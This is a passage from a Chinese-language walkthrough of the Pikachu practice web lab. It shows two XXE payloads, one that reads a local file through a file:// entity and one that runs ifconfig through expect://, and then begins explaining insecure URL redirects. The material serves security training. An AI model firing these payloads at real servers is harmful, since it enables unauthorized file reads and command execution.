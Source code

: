![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/70.png)

payload,请先确定目标路径有这个文件
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
```

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/71.png)

在 linux 下还可以输入这样的 payload
```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
```

---

## URL重定向

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方.

如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地,而又没有做判断的话

就可能发生"跳错对象"的问题.
